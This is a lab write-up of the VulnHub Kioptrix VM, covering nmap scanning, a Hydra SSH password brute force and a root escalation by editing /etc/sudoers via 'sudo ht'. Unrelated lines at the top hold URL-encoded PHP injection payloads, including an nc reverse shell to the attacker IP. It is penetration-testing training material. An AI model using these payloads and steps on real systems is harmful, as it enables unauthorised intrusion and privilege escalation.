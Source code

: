 https://secuniaresearch.flexerasoftware.com//secunia_research/2011-21/
%27%29%3B%24%7Bprint%28%27test%27%29%7D%3B%23 -> ');${print('test')};#
%27%29%3B%24%7Bsystem%28%27nc%20-e%20%2fbin%2fsh%2010.0.2.5%204444%27%29%7D%3B%23%22 -> ');${system('nc -e /bin/sh 10.0.2.5 4444')};#"

# Kioptrix 1.1 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/ "URL for kioptrix 1.1"). The kioptrix series are intended for use with VMWare, but by following the instructions found [here](http://hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/ "running kioptrix in VirtualBox"), you can get the virtual machines to work with VirtualBox.

## Information gathering

After booting up the attacker and vulnerable virtual machines, we can use the `ifconfig` and `netdiscover` commands to find the IP address of both of them. Running `ifconfig` will get us the IP address of the attacker machine, and from that, we can scan the local subnet with `nmap -sn 10.0.2.0/24` to find the IP address of the vulnerable machine. We scan the local subnet because we know that VirtualBox assigns IPs in that subnet, but the command can be changed to be `/12` or something else depending on the range you wish to scan. The arguments to the `nmap` command specify that an host discovery scan that skips the port scan phase should be used, and that the range to scan should be the IP addresses included in the `10.0.2.0/24` subnet, which are `10.0.2.1 - 10.0.2.254`.

![](images/ifconfig.png "ifconfig shows us that our attacker's IP address is 10.0.2.5")

![](images/pingscan.png "nmap -sn 10.0.2.0/24 shows us that there are four possible IP addresses for our target")

`nmap` presents us with four possible IP addresses for our target machine, and now we must narrow down the specific one that we will be exploiting. Since we know that our target is running as virtual machine on VirtualBox, that narrows the options down to `10.0.2.3` and `10.0.2.7`, because nmap identifies them as VirtualBox virtual machines. Knowing that VirtualBox uses `10.0.2.3` as a nameserver, we can tell that `10.0.2.7` is the target.

## Scanning

Now that we know what our target is, we will enumerate the ports that are open to try to see if any of them have vulnerable services running. The tool we'll use for that is `nmap`. Running `nmap -sV 10.0.2.7` will tell us the specific versions of the services running on the TCP ports, if possible, as compared to a normal `nmap 10.0.2.7`, which will just tell us the services that are running.

![](images/nmap.png "nmap -sV 10.0.2.7 shows us which services are running on the machine")

We can see that the target has several ports open, and we'll run down the list to try to see which ones we can exploit.

## Gaining Access

Using the `searchsploit` command, we can look for exploits that the target could be vulnerable to. Running `searchsploit openssh` shows us all of the exploits available for OpenSSH from [exploit-db](https://www.exploit-db.com/ "exploit-db"), but unfortunately, none of them are of interest to us. We're looking for something that can give us remote code execution, and the only one found that does that is for OpenSSH 3.5p1, while the version on the target is more recent than that.

![](images/openssh.png "searchsploit openssh shows us the available exploits for OpenSSH")

Because we didn't have any luck with port 22, we'll move on to considering the next one on the list, port 80. Since http is running on this port, we can try to navigate to the IP address in a web browser and see what we can find. Loading up `http://10.0.2.7` in Firefox gives us a webpage for Ligoat Security, with a few tabs for "Home", "Blog", and "Login.

![](images/front.png "http://10.0.2.7 loaded in Firefox")

Going to the "Blog" section shows two blog entries, one of which caught my eye. The "New Lead Programmer" entry gives us the username for their new lead programmer, "loneferret", which is something that we can leverage to gain access to their systems.

![](images/blog.png "Blog entries for Ligoat")

We can use THC-Hydra to try a dictionary attack on the "loneferret" user through SSH. To properly use a dictionary attack, we need a file with possible passwords that Hydra can try to log in with. I used [this file]("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10000.txt" "wordlist I used with THC-Hydra"), which includes 10,000 common passwords. Running the command `hydra -t 4 -l loneferret -P /usr/share/wordlists/top-10000.txt 10.0.2.7 ssh` will start Hydra with four tasks, meaning that there will be a maximum of 4 tries going on at once, using the login "loneferret" and wordlist that I downloaded, targeting the IP address `10.0.2.7` through the SSH service. As Hydra needs to try many passwords, it's typical that it will take a while to run.

![](images/hydra.png "result of THC-Hydra's dictionary attack")

Once Hydra finds a valid password, it will stop running and print out the result. In this case, it looks like the password for the "loneferret" user is "starwars". Now we can log in to the victim through the command `ssh loneferret@10.0.2.7` and entering the password when prompted.

![](images/login.png "logging in to the loneferret account")

## Elevating Access

Once we're logged in, we can use the `ls` command to list all the contents of the current directory. We see that there's a file called "CompanyPolicy.README", which we can read with `cat CompanyPolicy.README`. In it, we find out that the "loneferret" account has access to the "sudo ht" command. If they're able to use `sudo` on this command, let's see if they can use it on any other one. Trying to execute `sudo su root` or `sudo /bin/bash` ends up with an error that the user is not allowed to execute the given command as root, showing that they can only execute `ht` as root.

![](images/sudo.png "Trying out sudo commands")

Let's see what `ht` is. In my case, trying to run it with `sudo ht` gave me an error that stated "Error opening terminal: xterm-256color." I fixed this issue by using the command `export TERM=xterm`, which changes the text window's capabilities to support 8 colors, instead of 256. With the error fixed and the command running, we can see that `ht` is used as a text editor.

![](images/ht.png "Opening ht")

Since we run `ht` with `sudo`, this means that `ht` is running as the root user, allowing us to modify privileged system files. One file of interest to us would be /etc/sudoers, as this is the file where limits on the `sudo` command would be kept, and now, we can use `sudo ht -t /etc/sudoers` to open and edit the file.

![](images/sudoers.png "Opening /etc/sudoers in ht")

We can see that loneferret is only allowed to use the `sudo` command with /usr/local/bin/ht, and that they're locked out of using /usr/bin/su. We can modify this so that we can use /bin/bash with `sudo` by adding ", /bin/bash" to the loneferret line, and so that we can use the `su` command by deleting the exclamation mark in front of it.

![](images/bash.png "/etc/sudoers after the change")

Saving the changes with `F2` and quitting with `CTRL+C`, we can now try to use the `sudo /bin/bash` command to get a shell as root again, and this time, it works!

![](images/root.png "Getting a root shell")
